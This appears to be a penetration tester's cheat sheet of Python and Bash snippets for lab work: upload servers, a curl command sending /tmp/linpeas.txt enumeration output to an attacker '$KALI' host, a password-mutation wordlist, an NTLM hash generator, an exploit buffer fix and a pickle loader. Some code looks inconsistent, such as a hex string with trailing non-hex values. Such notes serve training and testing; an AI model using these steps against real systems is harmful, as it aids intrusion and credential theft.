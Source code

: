 ```python
```
#### python3 servers with PUT support:
```bash
wget https://gist.github.com/touilleMan/eb02ea40b93e52604938
```
```bash
wget https://gist.github.com/mildred/67d22d7289ae8f16cae7
```
```bash
wget https://gist.githubusercontent.com/touilleMan/eb02ea40b93e52604938/raw/b5b9858a7210694c8a66ca78cfed0b9f6f8b0ce3/SimpleHTTPServerWithUpload.py
```
##### upload with curl command:
```bash
curl -F 'file=@/tmp/linpeas.txt' [http://$KALI](http://%3cKALI%3e)
```
##### Install pip
```bash - kali
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py; python get-pip.py
```
```bash - kali
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py; python get-pip.py
```
#### Decode Hex
```python - kali
import binascii
s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135'
print(binascii.unhexlify(s.replace(' ','')))
```
P@ssw0rd@123!!123
#### Password manipulation
Run with python3!
```python
base_string = 'ThisIsTheUsersPassword'
for i in range(1, 26):
    print(f'{base_string}{i:02}')
```
```
 python3 pass.py
```
#### NTLM Generator
```
import hashlib,binascii
hash = hashlib.new('md4', "ThisIsTheUsersPassword22".encode('utf-16le')).digest()
print binascii.hexlify(hash)
```
#### Errors
>TypeError: a bytes-like object is required, not 'str'
Try adding `.encode()` like so:
```
s.send('USER '.encode() + buffer.encode() + '\r\n'.encode())
```
#### pickle file
Replace the file name to open, and filename to write to:
```python - kali
import pickle
# open a file, where you stored the pickled data
file = open('y.pkl', 'rb')
# dump information to that file
data = pickle.load(file)
# close the file
file.close()
#print('Showing the pickled data:')
```